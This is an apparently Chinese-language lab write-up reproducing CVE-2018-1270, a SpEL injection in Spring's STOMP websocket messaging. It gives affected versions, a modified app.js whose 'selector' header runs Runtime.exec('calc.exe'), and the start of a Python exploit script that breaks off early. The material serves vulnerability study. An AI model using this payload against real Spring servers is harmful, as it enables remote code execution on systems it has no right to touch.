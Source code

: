 # 影响版本

```
Spring Framework 5.0 to 5.0.4
Spring Framework 4.3 to 4.3.14
Spring Boot < 2.0.1 RELEASE
```

# 环境搭建

利用官方示例 https://github.com/spring-guides/gs-messaging-stomp-websocket 

用IDEA打开complete项目，修改一下springboot版本:

![image-20210906201812797]([SpEL]CVE-2018-1270/image-20210906201812797.png)

修改app.js中的第15行：

```java
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```

增加了一个header头部，其中指定了`selector`，其值即payload。

app.js是可以通过前端修改的,这里改的是源代码,但是攻击流程还是要明白。这里其实就是与服务端请求建立连接,然后发送数据。所以也不一定要这样改,直接用python这些也是可以的。

![image-20210907211007455]([SpEL]CVE-2018-1270/image-20210907211007455.png)

抓包也能看见我们的payload

![image-20210906212131719]([SpEL]CVE-2018-1270/image-20210906212131719.png)

p神的exp:

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
```